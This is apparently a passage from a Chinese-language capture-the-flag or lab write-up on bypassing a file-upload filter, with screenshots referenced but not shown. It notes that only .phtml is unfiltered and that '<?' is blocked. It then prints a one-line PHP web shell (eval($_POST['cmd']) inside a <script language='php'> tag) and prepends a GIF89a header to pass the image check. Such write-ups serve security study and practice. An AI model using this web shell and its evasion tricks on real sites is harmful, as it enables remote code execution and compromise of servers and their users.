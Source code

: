 ![](../pic/54.png)

只有phtml没有被过滤

![](../pic/55.png)

内容不能出现`<?`可以换成js的写法

![](../pic/56.png)

```
<script language="php">
eval($_POST['cmd']);
</script>
```

再上传提示必须是图片，添加gif文件头`GIF89a`

![](../pic/57.png)
